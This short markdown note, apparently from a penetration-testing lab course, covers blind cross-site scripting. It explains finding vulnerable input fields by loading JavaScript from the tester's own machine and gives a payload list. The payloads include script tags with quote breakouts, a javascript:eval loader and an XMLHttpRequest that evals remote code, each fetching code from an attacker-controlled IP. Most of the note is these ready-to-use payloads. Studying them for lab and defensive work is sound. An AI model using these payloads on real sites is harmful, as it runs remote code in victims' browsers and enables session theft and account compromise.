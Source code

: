 To know which input fields are vulnerable, we can try loading a remote `js` file from our machine and changing the request to be the name of the input field i.e. `<script src=http://OUR_IP/username></script>`


> [!NOTE] Note
> Blind XSS has a higher success rate with DOM XSS type of vulnerabilities because of the ability to read the source code and creating a payload based off of it.


## TEST ALL PAYLOADS
```js
<script src=http://10.10.14.2></script>
'><script src=http://10.10.14.2></script>
"><script src=http://10.10.14.2></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.14.7");a.send();</script>

<script>$.getScript("http://10.10.14.7")</script>
```

> [!NOTE] Note
> For registration forms, email fields are less likely to be vulnerable due to the format requirements being validated by front and back ends. Same with passwords as they'll be hashed
